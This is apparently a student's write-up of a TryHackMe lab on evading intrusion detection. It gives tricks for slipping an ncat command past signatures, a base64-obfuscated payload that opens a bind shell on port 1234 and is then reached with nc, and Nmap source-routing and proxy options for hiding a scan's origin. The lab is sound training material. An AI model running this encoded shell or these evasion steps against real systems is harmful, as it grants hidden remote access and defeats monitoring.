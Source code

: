 - Scanning for `ncat -lvnp` can be easily evaded by changing the order of the flags.
- On the other hand, inspecting the payload for `ncat -` can be evaded by adding an extra white space, such as `ncat  -` which would still run correctly on the target system.
- If the IDS is looking for `ncat`, then simple changes to the original command won’t evade detection. We need to consider more sophisticated approaches depending on the target system/application. One option would be to use a different command such as `nc` or `socat`. Alternatively, you can consider a different encoding if the target system can process it properly.


![[Pasted image 20250523140826.png]]


We can use the following payload at the last question:

```bash
echo 'bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==' | base64 -d | bash
```

We can then connect using:

```
nc IP 1234
```

We will get a shell and can execute `whoami`:

![[Pasted image 20250523140924.png]]



# Evasion via Route Manipulation

---

Evasion via route manipulation includes:

- Relying on source routing
- Using proxy servers

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/d0e4bdf9c029c7efa74b9962b3a42010.png)  

### Relying on Source Routing

In many cases, you can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option `--ip-options`. Nmap offers loose and strict routing:

- Loose routing can be specified using `L`. For instance, `--ip-options "L 10.10.10.50 10.10.50.250"` requests that your scan packets are routed through the two provided IP addresses.
- Strict routing can be specified using `S`. Strict routing requires you to set every hop between your system and the target host. For instance, `--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"` specifies that the packets go via these three hops before reaching the target host.

### Using Proxy Servers

The use of proxy servers can help hide your source. Nmap offers the option `--proxies` that takes a list of a comma-separated list of proxy URLs. Each URL should be expressed in the format `proto://host:port`. Valid protocols are HTTP and SOCKS4; moreover, authentication is not currently supported.
